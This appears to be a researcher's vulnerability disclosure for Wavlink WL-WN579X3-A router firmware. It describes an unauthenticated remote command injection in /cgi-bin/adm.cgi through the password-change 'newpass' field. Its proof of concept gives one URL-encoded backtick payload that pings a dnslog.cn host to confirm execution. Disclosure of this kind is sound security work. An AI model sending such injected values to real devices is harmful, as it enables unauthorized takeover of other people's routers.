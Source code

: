
A issue was dicovered on wavlink device with firmware at least from M79X3.V5030.180530 to M79X3.V5030.201201(newest version for now).   

A remote attacker can execute arbitrary code by sending  a crafted POST request to /cgi-bin/adm.cgi.    


## Intro 

When I was trying to analyze CVE-2020-10971，I downloaded the newest WL-WN579X3-A firmware posted on the official website of Wavlink.   

Firmware: https://www.wavlink.com/en_us/firmware/details/3a4d65ad3d.html  

After I checked all the code branches, I couldn't find the CVE-2020-10971, then I find a more old version firmware on the internet, I do notice that there was a RCE problem at adm.cgi correspond to https://james-clee.com/2020/04/18/multiple-wavlink-vulnerabilities/ .     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/5.png?raw=true)   

However I notice another RCE at the code branch which is responsible for handling password changes.  

Older versions of the firmware do not have this problem, but newer versions has RCE problem when the web server are handling the request for changing the password from uthenticated user.  

## The problem code    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/6.png?raw=true)    

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/7.png?raw=true) 

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/8.png?raw=true) 


## POC  

It not just affect the newest firmware, but alse the older version (at the newest version, serveral IP checks made the attacker can only use the RCE in adjacent networks).  

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/1.png?raw=true)     

Set the 'newpass' value as %60ping%20-c%201%203vkslf.dnslog.cn%60     

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/9.png?raw=true)   

After I sended the POST request, DNSlog platform had the records   

![](https://github.com/s0duku/issues/blob/main/wavlink/WL-WN579X3-A_RCE/10.png?raw=true) 







